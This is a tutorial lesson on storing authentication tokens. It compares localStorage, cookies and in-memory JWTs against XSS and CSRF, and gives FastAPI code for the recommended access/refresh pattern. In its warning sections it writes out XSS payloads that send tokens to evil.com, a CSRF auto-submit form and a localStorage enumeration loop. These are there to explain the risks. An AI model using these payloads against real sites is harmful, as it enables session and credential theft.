



# Lesson 07: Authentication State Storage

*Where the access token lives, where the refresh token lives, why "JWT in localStorage" is the most common and most attacked pattern — and the recommended pattern that survives both XSS and CSRF.*

**This is the lesson where the section comes together.**

You've built the cookie (Lesson 2). You've built the session (Lesson 3). You've built the CSRF middleware (Lesson 4). Now: where do you put the access token and the refresh token? The answer determines your threat model. Put the access token in `localStorage` and a single XSS exfiltrates every user's session. Put it in a cookie without `HttpOnly` and you have the same problem. Put the refresh token in `localStorage` and the same XSS gives the attacker long-lived access. The recommended pattern — short-lived access in `Authorization` header, long-lived refresh in `httpOnly`+`Secure`+`SameSite=Strict` cookie — is what survives both. Today you'll see the trade-off matrix, the recommended pattern, and the implementation in `Boardly`. Take your time. This is the decision that determines whether your auth holds.


#http #auth #security #jwt #cookies

## Learning Objectives

By the end of this lesson you will be able to:

1. **Compare the six patterns** for storing the authenticated user's state: (1) server-side session row in an `httpOnly` cookie, (2) signed cookie, (3a) JWT in `Authorization` header held in-memory, (3b) JWT in `localStorage`, (4) JWT in `httpOnly` cookie, (6) opaque token in `localStorage` — and identify the recommended hybrid synthesis (Pattern 5) as the default for new browser-based projects.
2. **State the eight-dimension trade-off matrix** for each pattern: XSS-theft, XSS-make-requests, CSRF, revocation, DB outage, size cost, multi-device behaviour, mobile-app suitability.
3. **Explain why "JWT in localStorage" is the most common and the most attacked** — and the specific XSS chain that makes it so.
4. **Explain why pure-JWT-in-`Authorization` is typically CSRF-immune** — and the subtle exception (if you ever read cookies).
5. **Implement the recommended pattern** — access token short-lived in `Authorization` (in-memory or refreshed silently), refresh token in `httpOnly`+`Secure`+`SameSite=Strict` cookie.
6. **Implement the silent-refresh flow** — when the access token expires, the SPA makes a `POST /auth/refresh` (no body, the cookie carries the refresh token) and gets a new access token.
7. **Implement logout-everywhere** — revoke the refresh token in the cookie and all server-side copies for the user.
8. **Reason about token rotation** — when to issue a new refresh token on each refresh (the refresh-token-rotation pattern).

## Prerequisites

Before starting, you need:

- **Lesson 2 — Cookies** ([[HTTP-Cookies-Deep-Dive]]). The recommended pattern uses a cookie for the refresh token; you need to know cookie attributes.
- **Lesson 3 — Sessions** ([[Session-Management]]). The refresh token is a server-side session ID; the session store is what you built there.
- **Lesson 4 — CSRF** ([[CSRF-Protection]]). The refresh-token cookie is CSRF-vulnerable; you need the synchronizer-token pattern (or `SameSite=Strict`).
- **Lesson 1 — Headers** ([[HTTP-Headers-Deep-Dive]]). The `Authorization` header is one of the storage patterns; you need to know it.
- **Pydantic `BaseModel`** — [[04-Pydantic/BaseModel-and-Validation]]. We use a Pydantic model for the JWT claims.
- **About two hours of focused time.** This is the longest lesson because it ties together everything else in the section.

**JWT is taught in depth in Section 11.**

This lesson covers *where to put* the JWT, not *how JWTs work*. For the JWT mechanics (header, payload, signature, claims, `exp`, `iat`, `nbf`, `jti`, key rotation), read [[11-Authentication-and-Security/OAuth2-JWT-Access-Refresh|Section 11 Lesson 1]]. We assume the JWT is opaque from the perspective of *this* lesson — the only thing that matters is where it's stored.


## The Problem

Six patterns, six threat models. The choice isn't "which is best" — it's "which threats am I worried about, and which pattern defends against them?" Pattern 5 (the recommended hybrid) is the synthesis we'll build in this lesson; Patterns 1, 2, 3a, 3b, 4, and 6 are the components it draws from. Read them as a catalog, not a hierarchy.

**Think like a senior engineer: where you store auth state IS your security model.**

The naive question is "JWT or cookies?" — and that question produces religious wars because both can be made to work and both can be made to fail. The senior question is different: "what's my XSS risk, and what's my CSRF risk?" The storage decision follows.
- `localStorage` is JS-readable, so the XSS risk is "an attacker who runs a single line of JS on my origin has every user's token." That risk is so high that no convenience argument justifies it.
- An `httpOnly` cookie is not JS-readable, so the XSS risk is "an attacker who runs JS on my origin can make requests *as the user* while they're on the page, but cannot exfiltrate the credential." The blast radius drops from "long-lived credential theft" to "session ride while the user is on the page."
- A `SameSite=Strict` cookie is never sent on cross-site requests, so the CSRF risk is structurally zero.
- A `SameSite=Lax` cookie is sent on top-level GET navigations from other sites, so the CSRF risk is "any GET endpoint that mutates state is vulnerable" — which means you must never have any GET endpoint that mutates state.

The pattern matrix below is the systematic enumeration of those two risk axes across six storage choices. Read the matrix as the answer to "what's my XSS risk, what's my CSRF risk?" — not as "which is best?"


### Pattern 1: Server-side session row (the Lesson 3 pattern)

The cookie carries an opaque signed session ID. The session row in Postgres carries `user_id`, `csrf_token`, `last_seen_at`. Every request hits the DB to look up the session.

**Threat model:**
- **XSS:** the cookie is `HttpOnly`; JS can't read it. An XSS can make requests *as the user* while the user is on the page, but cannot exfiltrate the session ID. Limited blast radius.
- **CSRF:** the cookie is auto-sent on cross-site requests. CSRF defence is required (Lesson 4). With `SameSite=Lax` + synchronizer-token, you're safe.
- **DB outage:** if the session store is down, no one is authenticated. SPOF.

**Best for:** browser-based apps where the DB is fast (Redis-backed sessions, or Postgres with low traffic).

### Pattern 2: Signed cookie

The cookie carries the state itself (e.g., the `user_id`), signed with the server's secret. No DB lookup.

**Threat model:**
- **XSS:** same as Pattern 1 (`HttpOnly`).
- **CSRF:** same as Pattern 1.
- **Revocation:** no server-side state — you can't invalidate a single user's cookie without rotating the server's signing secret (which logs out everyone).

**Best for:** low-sensitivity apps where short-lived sessions are OK and you don't need revocation.

### Pattern 3a: JWT in `Authorization` header (in-memory)

The client holds a JWT **in memory** (a JS variable in the SPA's root component, *not* `localStorage`). The client attaches `Authorization: Bearer <jwt>` on every request. The server verifies the JWT signature and trusts the claims.

**Threat model:**
- **XSS:** if the JWT is in memory only, an XSS can make `fetch` calls *as the user* while they're on the page (the XSS runs in the SPA's origin and can use the SPA's in-memory state via the same `fetch` the SPA would use), but it cannot exfiltrate the JWT itself — there is no `localStorage.getItem('jwt')` to read, and the XSS would have to be on the SPA's origin AND have access to the SPA's in-memory state. Harder, not impossible.
- **CSRF:** the JWT is in a header, not a cookie. The browser doesn't auto-attach it. The malicious page can't add an `Authorization` header to a cross-origin request without a CORS preflight, which fails. **CSRF-immune.**
- **Revocation:** if the JWT is short-lived (e.g., 5 minutes), revocation is "wait 5 minutes." If long-lived, no server-side revocation at all.

**Best for:** APIs consumed by mobile apps, server-to-server, SPAs that store the JWT in memory (NOT `localStorage`).

### Pattern 3b: JWT in `Authorization` header (`localStorage`)

The client holds a JWT in `localStorage` and reads it on every request to attach as `Authorization: Bearer <jwt>`. The server side is identical to Pattern 3a. The *storage* difference changes the threat model completely.

**Threat model:**
- **XSS:** if the JWT is in `localStorage`, an XSS can read it (`localStorage.getItem('jwt')`) and exfiltrate it. Attacker has long-lived access (until the JWT expires). This is the most-attacked pattern on the web.
- **CSRF:** the JWT is in a header, not a cookie. **CSRF-immune.**
- **Revocation:** same as Pattern 3a — short-lived, you wait; long-lived, no server-side revocation.

**Best for:** nothing, in modern browser apps — the threat model is strictly worse than Pattern 3a, and the storage convenience (the JWT survives page refresh) is not worth the exfiltration risk. Documented here because most tutorials default to it; **avoid it**.

**Warning — Why "JWT in localStorage" is the most attacked.**

`localStorage` is accessible to any JavaScript running on your origin. A single stored-XSS — a comment that contains `<script>fetch('https://evil.com/?jwt='+localStorage.getItem('jwt'))</script>` — exfiltrates every viewer's JWT. The JWT is valid until it expires. If the JWT is long-lived (e.g., 30 days), the attacker has 30 days of access. If the JWT is short-lived but the SPA refreshes it via an `Authorization: Bearer <jwt>` call that returns a new JWT, the attacker can keep refreshing (if they hit the refresh endpoint before the JWT expires).

The fix is *never* to store the access JWT in `localStorage`. Store it in memory (a JS variable in your SPA's root component). It dies on page refresh — but the silent-refresh flow re-fetches it from the `httpOnly` cookie.


**Danger — How an attacker thinks: three exploitation paths the storage choice closes or opens.**

Three concrete attack chains that determine whether your storage choice survives contact with an adversary. Each is the answer to a different senior-engineer question.
- **XSS-to-token-theft chain.** The attacker finds a stored XSS in a comment field (or a reflected XSS in a URL parameter, or a DOM-based XSS in a router that interpolates a query parameter into the page). The payload is `fetch('//evil.com/?t='+localStorage.getItem('access_token'))`. Every viewer who loads the comment exfiltrates their access token to the attacker's server. The attacker replays from their own machine. The token is valid until `exp`. If the SPA also keeps the refresh JWT in `localStorage` (a doubly-bad pattern), the attacker refreshes on a schedule and has permanent access until the user changes their password AND the server-side refresh table is wiped. Pattern 5 (access in-memory, refresh in `httpOnly` cookie) closes this chain: there is no `localStorage.getItem` to call, and the `httpOnly` cookie is not JS-readable. The senior question: "what does a single stored XSS on my origin give the attacker?" If the answer is "one user's long-lived credential," you have an XSS-to-token-theft chain. If the answer is "one user's session ride for the page lifetime," you have closed the chain.
- **CSRF-via-cookie replay.** The attacker crafts a page on `evil.com` with `<form method="POST" action="https://api.victim.dev/auth/refresh"><input type="hidden" name="x" value="y"></form><script>document.forms[0].submit()</script>`. If the refresh cookie is `SameSite=Lax`, the browser sends it on this top-level cross-site POST (because Lax sends cookies on top-level navigations, including those triggered by POST forms in some browsers and recent CVE patches). The `/auth/refresh` endpoint returns a fresh access token to the attacker's page, which the attacker's script then reads via `window.opener` or by redirecting. The defence is `SameSite=Strict` (the cookie is never sent on cross-site requests, period). Defence in depth is also requiring a synchronizer-token on `/auth/refresh` so even a cookie that arrives cannot perform the refresh without the matching token from the SPA. The senior question: "if a hostile page on another origin submits a form to my refresh endpoint, does the cookie arrive?" If the answer is yes, you have a CSRF-via-cookie replay chain.
- **localStorage enumeration.** An XSS that runs in the user's browser is not limited to a single `localStorage` key — it can iterate `for (let i = 0; i < localStorage.length; i++) console.log(localStorage.key(i), localStorage.getItem(localStorage.key(i)))` and POST every key-value pair to the attacker. The enumeration means that even if you store your token under a non-obvious key (`localStorage.getItem('_x9k2')`), the attacker finds it in O(n) where n is the number of keys your app uses. This is what makes `localStorage` categorically different from in-memory state: in-memory state is not enumerable — the attacker would need to find the specific JS variable in your SPA's closure, which requires reverse-engineering your bundled code AND being on the page when the variable is in scope. The categorical asymmetry is why "I'll just store it in `localStorage` under an obscure key" is not a defence — it is a self-deception. The senior question: "can an attacker who runs one line of JS on my origin enumerate all my client-side state?" If the answer is yes, every secret in that state is one XSS away from exfiltration.


### Pattern 4: JWT in `httpOnly` cookie

The cookie carries the JWT, set with `HttpOnly`+`Secure`+`SameSite=Lax`. The browser auto-attaches the cookie.

**Threat model:**
- **XSS:** `HttpOnly` defeats JS theft. The attacker can make requests *as the user* while they're on the page, but cannot steal the JWT.
- **CSRF:** the cookie is auto-sent. CSRF defence is required (synchronizer-token).
- **Revocation:** if the JWT is short-lived, you wait. If long-lived, no server-side revocation.

**Best for:** browser apps where you want the browser to manage the token lifecycle but don't want JS to read it.

### Pattern 6: Opaque token in `Authorization` header (`localStorage`)

The client holds an opaque random string (a 43-char `secrets.token_urlsafe(32)`, like our refresh token) in `localStorage` and attaches it as `Authorization: Bearer <opaque>` on every request. The server looks up the opaque token in the DB on every request (just like Pattern 1's session ID lookup, but the credential is in a header, not a cookie).

**Threat model:**
- **XSS:** same as Pattern 3b — `localStorage` is JS-readable. An XSS exfiltrates the opaque token. Attacker has long-lived access until the token is revoked (which *can* be done server-side, unlike a JWT).
- **CSRF:** the token is in a header, not a cookie. **CSRF-immune.**
- **Revocation:** server-side — you can revoke the opaque token (`DELETE FROM access_tokens WHERE token = $1`). The DB lookup on every request is the cost of this revocation capability.
- **DB outage:** SPOF — no DB, no auth, same as Pattern 1.

**Best for:** first-party mobile and desktop apps (no XSS surface — the OS keychain, not `localStorage`, is the right storage in real native apps; but if you must use a bearer-token model over the wire, an opaque token is preferable to a JWT because it is revocable); server-to-service APIs where the verifier wants revocation without a JWT denylist.

### Pattern 5: The recommended synthesis – short-lived access JWT in `Authorization`, long-lived refresh token in `httpOnly` cookie

The access JWT (5-minute expiry) is in the SPA's memory (or `sessionStorage`); attached to every request as `Authorization: Bearer <jwt>`. The refresh token (server-side session ID, 30-day expiry) is in an `httpOnly`+`Secure`+`SameSite=Strict` cookie. When the access JWT expires, the SPA calls `POST /auth/refresh` (no `Authorization` header needed — the cookie carries the refresh token); the server returns a new access JWT.

**Threat model:**
- **XSS:** the access JWT is in memory; the XSS can make requests *as the user* while they're on the page, but cannot steal it (memory is not directly accessible; the XSS would have to make `fetch` calls, which it can — but it can't exfiltrate the JWT itself unless the XSS happens to be on the SPA's origin AND has access to the SPA's in-memory state, which depends on the SPA's architecture). The refresh token is `httpOnly`; the XSS cannot read it. So even a stolen access JWT (5-min lifetime) can't be refreshed by the attacker.
- **CSRF:** the access JWT is in a header — CSRF-immune for the access-token path. The refresh token is in a cookie — `SameSite=Strict` blocks cross-site requests; the `POST /auth/refresh` endpoint also requires `SameSite=Strict` to even arrive.
- **Revocation:** the refresh token is server-side — you can revoke it (delete the session row). The access JWT is short-lived — wait 5 minutes.

**Best for:** most modern browser-based apps.

**Why this is the recommended pattern.**

It combines the strengths of Patterns 1 and 3:
- The access JWT (header-based) is CSRF-immune (Pattern 3).
- The refresh token (cookie-based, `HttpOnly`) is XSS-immune for theft (Pattern 4).
- The refresh token is server-side — revocable (Pattern 1).
- The access JWT is short-lived — even if an XSS exfiltrates it, the damage is bounded to 5 minutes.
- `SameSite=Strict` on the refresh cookie makes the `POST /auth/refresh` endpoint CSRF-immune (the cookie isn't sent on cross-site requests at all, even top-level GET).

The trade-off: the SPA needs to manage the access token lifecycle (silent refresh). That's a few hundred lines of JS — covered briefly in this lesson's code.


The problem this lesson solves: **most tutorials default to "JWT in `localStorage`" because it's the simplest — no cookies, no CSRF, no silent refresh. It's also the most attacked, because a single XSS exfiltrates the JWT and the attacker has long-lived access.** By the end of this lesson, your `Boardly` will have the recommended pattern implemented.

## The Code

Two pieces ship in this lesson:

1. A `boardly/auth/tokens.py` module with `issue_access_token(user_id)`, `decode_access_token(token)`, and `issue_refresh_token(user_id, store)` — the JWT issuance and the refresh-token creation.
2. A `boardly/routers/auth.py` addition: `POST /auth/login` (issues both access and refresh), `POST /auth/refresh` (uses the refresh cookie to issue a new access), `POST /auth/logout` (revokes the refresh session).

The code is below.

```python
# boardly/auth/tokens.py
"""Boardly — access + refresh token issuance.

Lesson 02b-7: the recommended pattern. Access JWT in Authorization,
refresh token (server-side session ID) in httpOnly cookie.
"""
from __future__ import annotations

import logging
import os
import secrets
from datetime import datetime, timedelta, timezone
from typing import Any

import jwt
from pydantic import BaseModel, Field, ValidationError

from boardly.sessions.store import (
 SESSION_ABSOLUTE_TTL,
 SESSION_IDLE_TTL,
 SessionData,
 SessionStoreProtocol,
)

logger = logging.getLogger(__name__)


# --- Configuration (in real code, from Pydantic Settings — see Lesson 04) ---
# `os.environ.get(..., default)` teaches the env-var pattern as the default:
# a real secret can be injected at runtime, while the demo string keeps the
# lesson runnable out of the box. Never ship with the demo value in production.
JWT_SECRET = os.environ.get("JWT_SECRET", "demo-secret-please-rotate")
JWT_ALGORITHM = "HS256"
JWT_ISSUER = "boardly.dev"
ACCESS_TOKEN_LIFETIME = timedelta(minutes=5)
REFRESH_TOKEN_COOKIE_NAME = "__Host-refresh"


# --- Access token (JWT) ---
class AccessClaims(BaseModel):
 """The claims we encode in the access JWT.

 `sub` is a string per RFC 7519 §4.1.2 ("Subject") — the JWT spec
 requires `sub` to be a string, not an int. We cast at issuance:
 `sub=str(user_id)`. At decode, `int(claims.sub)` parses it back.
 This matches the canonical claim shape in
 [[11-Authentication-and-Security/OAuth2-JWT-Access-Refresh]].
 """
 sub: str = Field(..., description="user_id (string per RFC 7519)")
 iss: str = Field(..., description="issuer — reject tokens whose iss is not ours")
 iat: int = Field(..., description="issued-at unix timestamp")
 exp: int = Field(..., description="expiry unix timestamp")
 jti: str = Field(..., description="unique token ID (for revocation lists)")


def issue_access_token(user_id: int) -> str:
 """Issue a short-lived access JWT for the user."""
 now = datetime.now(timezone.utc)
 claims = AccessClaims(
 sub=str(user_id),
 iss=JWT_ISSUER,
 iat=int(now.timestamp()),
 exp=int((now + ACCESS_TOKEN_LIFETIME).timestamp()),
 jti=secrets.token_urlsafe(16),
 )
 # Pyjwt accepts a dict; we serialise the model first.
 return jwt.encode(claims.model_dump(), JWT_SECRET, algorithm=JWT_ALGORITHM)


def decode_access_token(token: str) -> AccessClaims:
 """Verify signature, issuer, and parse claims.

 Raises `jwt.PyJWTError` on signature/expiry/issuer failure and
 `ValidationError` on claims-shape failure. The caller is expected
 to catch and return a 401 with a generic "invalid token" message.
 Logs the specific exception type at INFO so observability tools can
 distinguish "expired" from "invalid signature" from "malformed"
 without leaking the detail to the client.
 """
 decoded = jwt.decode(
 token,
 JWT_SECRET,
 algorithms=[JWT_ALGORITHM],
 issuer=JWT_ISSUER,
 )
 return AccessClaims.model_validate(decoded)


# --- Refresh token (server-side session) ---
async def issue_refresh_token(
 user_id: int,
 display_name: str,
 store: SessionStoreProtocol,
) -> str:
 """Issue a long-lived refresh token by creating a server-side session.

 The 'refresh token' IS the session ID from Lesson 3. We store the
 user_id and a fresh csrf_token in the session data.
 """
 data = SessionData(
 user_id=user_id,
 user_display_name=display_name,
 last_seen_at=datetime.now(timezone.utc).isoformat(),
 csrf_token=secrets.token_urlsafe(32),
 )
 return await store.create(data)


# --- Cookie helpers ---
def set_refresh_cookie(response, refresh_token: str) -> None:
 """Set the refresh-token cookie on a Response.

 Attributes:
 - __Host- prefix: Secure, Path=/, no Domain
 - HttpOnly: defeats XSS exfiltration
 - Secure: HTTPS only
 - SameSite=Strict: never sent on cross-site requests (even top-level GET)
 - Max-Age: matches SESSION_IDLE_TTL (sliding)
 """
 from fastapi import Response
 response.set_cookie(
 key=REFRESH_TOKEN_COOKIE_NAME,
 value=refresh_token,
 max_age=int(SESSION_IDLE_TTL.total_seconds()),
 secure=True,
 httponly=True,
 samesite="strict",
 path="/",
 )


def clear_refresh_cookie(response) -> None:
 """Clear the refresh-token cookie."""
 response.set_cookie(
 key=REFRESH_TOKEN_COOKIE_NAME,
 value="",
 max_age=0,
 expires=0,
 secure=True,
 httponly=True,
 samesite="strict",
 path="/",
 )
```

```python
# Add to boardly/routers/auth.py:
from boardly.auth.tokens import (
 REFRESH_TOKEN_COOKIE_NAME,
 AccessClaims,
 clear_refresh_cookie,
 decode_access_token,
 issue_access_token,
 issue_refresh_token,
 set_refresh_cookie,
)


# --- Stub user lookup ---
# In real Boardly this is `SELECT id, email, display_name, password_hash
# FROM users WHERE email = $1` on a Postgres `AsyncSession`. The stub
# uses a module-level dict so the lesson is runnable without a DB.
_USERS_DB = {
 "alice@boardly.dev": {
 "id": 1, "email": "alice@boardly.dev", "display_name": "Alice",
 # Real Boardly stores a bcrypt hash; the canonical pattern is
 # `bcrypt.checkpw(payload.password.encode(), user["password_hash"].encode())`
 # (see [[Password-Hashing]]). The teaching code below compares against
 # a known demo password so the lesson is runnable without a real hash.
 "password_hash": "$2b$12$...",
 },
}
_USERS_DB_BY_ID = {u["id"]: u for u in _USERS_DB.values()}


@router.post("/login")
async def login(
 payload: LoginRequest,
 response: Response,
 store: Annotated[SessionStoreProtocol, Depends(_store)],
) -> dict:
 """Authenticate, issue an access JWT (in the body) and a refresh
 token (in an httpOnly cookie)."""
 user = _USERS_DB.get(payload.email)
 # Teaching code: the plaintext comparison keeps the lesson runnable
 # without a bcrypt hash fixture. Production code MUST verify against
 # the stored bcrypt hash — see [[Password-Hashing]]. The constant-time
 # comparison would be `bcrypt.checkpw(payload.password.encode(),
 # user["password_hash"].encode())`.
 if user is None or payload.password != "alice-demo-pw-2026":
 return JSONResponse({"error": "invalid credentials"}, status_code=401)

 access_token = issue_access_token(user["id"])
 refresh_token = await issue_refresh_token(
 user["id"], user["display_name"], store,
 )
 set_refresh_cookie(response, refresh_token)
 return {
 "access_token": access_token,
 "token_type": "bearer",
 "expires_in": 300, # 5 minutes, matches ACCESS_TOKEN_LIFETIME
 "user": {"id": user["id"], "display_name": user["display_name"]},
 }
```

**Danger — Never ship plaintext password comparison.**

The `payload.password != "alice-demo-pw-2026"` line above is teaching code —
it keeps the lesson runnable without a bcrypt hash fixture. Production
code MUST verify against the stored bcrypt hash via `bcrypt.checkpw(...)`.
See [[Password-Hashing]] for the canonical constant-time pattern and the
timing-equalization dummy-verify trick that prevents user enumeration.


```python
@router.post("/refresh")
async def refresh(
 request: Request,
 response: Response,
 store: Annotated[SessionStoreProtocol, Depends(_store)],
 refresh_cookie: Annotated[str | None, Cookie(alias=REFRESH_TOKEN_COOKIE_NAME)] = None,
) -> dict:
 """Use the refresh cookie to issue a new access JWT.

 No Authorization header needed. The refresh cookie is auto-sent
 (SameSite=Strict means it's only sent on same-site requests, which
 a fetch from your SPA qualifies as).
 """
 if not refresh_cookie:
 return JSONResponse({"error": "no refresh token"}, status_code=401)

 session = await store.load(refresh_cookie)
 if session is None:
 # Invalid or expired refresh — clear the cookie.
 clear_refresh_cookie(response)
 return JSONResponse({"error": "invalid refresh token"}, status_code=401)

 # Issue a new access token. The refresh token itself is NOT rotated
 # here (the same one continues to work). For high-security apps,
 # rotate the refresh token on every refresh (reissue + delete old).
 access_token = issue_access_token(session.user_id)
 return {
 "access_token": access_token,
 "token_type": "bearer",
 "expires_in": 300,
 }


@router.post("/logout")
async def logout(
 request: Request,
 response: Response,
 store: Annotated[SessionStoreProtocol, Depends(_store)],
 refresh_cookie: Annotated[str | None, Cookie(alias=REFRESH_TOKEN_COOKIE_NAME)] = None,
) -> dict:
 """Revoke the refresh token (delete the session row) and clear the cookie."""
 if refresh_cookie:
 await store.delete(refresh_cookie)
 clear_refresh_cookie(response)
 return {"ok": True}


@router.post("/logout-everywhere")
async def logout_everywhere(
 request: Request,
 response: Response,
 store: Annotated[SessionStoreProtocol, Depends(_store)],
 refresh_cookie: Annotated[str | None, Cookie(alias=REFRESH_TOKEN_COOKIE_NAME)] = None,
) -> dict:
 """Revoke ALL refresh tokens for this user (delete every session row)."""
 if not refresh_cookie:
 return {"ok": True, "revoked": 0}
 session = await store.load(refresh_cookie)
 if session is None:
 clear_refresh_cookie(response)
 return {"ok": True, "revoked": 0}
 count = await store.delete_all_for_user(session.user_id)
 clear_refresh_cookie(response)
 return {"ok": True, "revoked": count}


# --- The protected endpoint that uses the access token ---
from fastapi import Depends
from fastapi.security import HTTPAuthorizationCredentials, HTTPBearer


_bearer = HTTPBearer(auto_error=False)


async def get_current_user(
 credentials: Annotated[HTTPAuthorizationCredentials | None, Depends(_bearer)] = None,
) -> dict:
 """Decode the access JWT and return the canonical user dict.

 Returns the canonical user shape `{"sub": str, "id": int, "email": str}`
 used across the 02b-Backend-Foundations and 11-Authentication-and-Security
 lessons — see [[11-Authentication-and-Security/OAuth2-JWT-Access-Refresh]]
 for the claim shape. Routes that need only the user id read `user["sub"]`
 (a string per RFC 7519); routes that need an int read `user["id"]`.
 """
 if credentials is None:
 raise HTTPException(401, "missing bearer token")
 try:
 claims = decode_access_token(credentials.credentials)
 except (jwt.PyJWTError, ValidationError) as e:
 # Log the specific failure type at INFO so observability can distinguish
 # "expired" from "invalid signature" from "malformed" without leaking
 # the detail to the client. The client sees only "invalid access token".
 logger.info("token decode failed: %s", type(e).__name__)
 raise HTTPException(401, "invalid access token") from e
 # In real code: SELECT id, email FROM users WHERE id = $1. The DB read
 # verifies the user still exists (e.g. has not been deleted) and loads
 # the current email (in case it has changed since the JWT was issued).
 user_id = int(claims.sub)
 user = _USERS_DB_BY_ID.get(user_id)
 if user is None:
 raise HTTPException(401, "invalid access token")
 return {"sub": claims.sub, "id": user_id, "email": user["email"]}


@router.get("/me")
async def me(user: Annotated[dict, Depends(get_current_user)]) -> dict:
 """Read the current user. Uses the access JWT from Authorization."""
 return {"user_id": user["id"], "email": user["email"]}
```

That's the file set. ~150 lines across the two modules. Run it. Make the login → refresh → me → logout flow. Then come back and we'll go through it line by line.

## Line-by-Line Deep Dive

### `issue_access_token` and `decode_access_token`

```python
def issue_access_token(user_id: int) -> str:
 now = datetime.now(timezone.utc)
 claims = AccessClaims(
 sub=str(user_id),
 iss=JWT_ISSUER,
 iat=int(now.timestamp()),
 exp=int((now + ACCESS_TOKEN_LIFETIME).timestamp()),
 jti=secrets.token_urlsafe(16),
 )
 return jwt.encode(claims.model_dump(), JWT_SECRET, algorithm=JWT_ALGORITHM)

def decode_access_token(token: str) -> AccessClaims:
 decoded = jwt.decode(
 token,
 JWT_SECRET,
 algorithms=[JWT_ALGORITHM],
 issuer=JWT_ISSUER,
 )
 return AccessClaims.model_validate(decoded)
```

